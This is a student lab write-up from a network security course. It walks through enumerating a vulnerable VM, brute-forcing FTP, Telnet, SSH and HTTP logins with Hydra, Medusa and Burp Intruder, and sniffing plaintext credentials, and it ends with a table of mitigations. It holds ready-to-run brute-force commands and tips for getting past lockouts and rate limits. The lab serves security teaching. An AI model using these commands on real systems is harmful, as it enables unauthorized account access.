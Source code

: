 
# 🛡️ Lab 1: Cryptographic Attacks - Brute Force and Traffic Analysis on Network Protocols

**Author**: Raja Muhammad Haiqal Shah  
**Date**: April 10, 2025  
**Course**: Network Security  
**Lab Duration**: 3 hours  
**Total Marks**: 15  

---

## 🔍 A. Objective

To exploit the vulnerabilities of common network protocols—**FTP**, **TELNET**, **SSH**, and **HTTP**—by:

- Performing brute force attacks using tools like **Hydra**, **Medusa**, **NetExec**, and **Burp Suite**
- Using valid credentials to capture and analyze network traffic
- Identifying secure vs insecure protocols
- Proposing mitigation strategies

---

## ⚙️ B. Lab Tasks

### 🔎 1. Enumerate the Vulnerable VM to Discover Usernames

**Tool used**: `enum4linux`, `nmap`, `NetExec`  
**Command examples**:

```bash
enum4linux -a <target-ip>
```
(![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enumcommand.jpg))
(![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enum.jpg))

```bash
nmap -sV -p21,23,22,80 <target-ip>
```
![nmap scan port to attack](nmapscan.jpg)

**Discovered usernames**:
- admin
- user
- test
- ftpuser
  
![users](vimusers.jpg)

---

### 🔓 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, SSH  
**Tools used**: `Hydra`

**FTP**

```bash
hydra -L users.txt -P /usr/share/wordlists/simplepass.txt -t 4 ftp:ftp://<target-ip> -o resultftp.txt
```
![ftp result and command](ftpcommandandresults.jpg)

**TELNET**

```bash
hydra -L users.txt -P passwords.txt telnet://<target-ip>
```


**SSH**

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```

![ssh command](sshcommand.jpg)
![ssh result](sshresults.jpg)
---

#### 2.2 HTTP (Web Login Brute Force)  
**Tool used**: `Burp Suite (Intruder)`

- Captured POST request with login credentials.
- Configured payload positions for username and password.
- Imported wordlists (e.g., `rockyou.txt`).

📸 Screenshot: _Burp Intruder config and successful login response (e.g., 302 redirect or "Welcome" text)._

---

### 🧪 3. Sniff Network Traffic

**Tool used**: `Wireshark` / `tcpdump`  
**Steps**:
1. Log in to FTP, Telnet, SSH, and HTTP using recovered credentials.
2. Capture traffic during login and interaction.

```bash
tcpdump -i eth0 -w capture.pcap
```

**🧩 Analysis**:
| Protocol | Observation                        |
|----------|-------------------------------------|
| FTP      | Plaintext username/password ✔️     |
| TELNET   | Plaintext data ✔️                  |
| SSH      | Encrypted traffic ✅                |
| HTTP     | Login credentials in POST ✔️       |


📸 Screenshot: _Wireshark showing FTP/Telnet plaintext credentials and comparison with SSH._

---

### ⚠️ 4. Analyze Problems Encountered

| Protocol | Problem                              | Solution                              |
|----------|---------------------------------------|---------------------------------------|
| FTP      | Login delay after multiple failures  | Used `-t 4` to limit threads          |
| TELNET   | Session timeout                      | Increased timeout using `-T 10`       |
| HTTP     | Rate limit after 10 attempts         | Added delay in Burp Intruder payloads |
| SSH      | Account lock after 5 attempts        | Switched to Medusa                    |

---

### 🔐 5. Propose Mitigation Strategies

| Protocol | Problem                 | Mitigation                                    |
|----------|--------------------------|-----------------------------------------------|
| FTP      | Plaintext login          | Use **SFTP** instead of FTP                   |
| TELNET   | No encryption            | Replace with **SSH**                          |
| SSH      | Brute forceable          | Use **key-based authentication**, `fail2ban` |
| HTTP     | Passwords exposed in POST| Implement **HTTPS**, Captcha, lockout        |

---

### 📝 6. Walkthrough Summary

**Tools Used**:  
Hydra, Medusa, Burp Suite, Wireshark, NetExec, nmap, tcpdump

**Key Commands**:

```bash
hydra -l admin -P rockyou.txt ftp://<ip>
```

```bash
medusa -h <ip> -u admin -P rockyou.txt -M telnet
```

📸 Screenshots Included:
- Enumeration results  
- Brute force success (each protocol)  
- Wireshark traffic  
- BurpSuite config & success  
- Mitigation diagram _(optional)_

---

## 📁 C. Deliverables

- ✅ Walkthrough Markdown File  
- ✅ Screenshots (PNG/JPG)  
- ✅ GitHub Repo Link: _[Insert Your Repo Link Here]_

---

## 🎤 D. Demo and Debrief Checklist

- ✅ Introduce tools & setup  
- ✅ Show enumeration → brute force → successful login  
- ✅ Open Wireshark and show sniffed credentials (FTP/Telnet)  
- ✅ Discuss protocol weaknesses  
- ✅ Propose improvements  
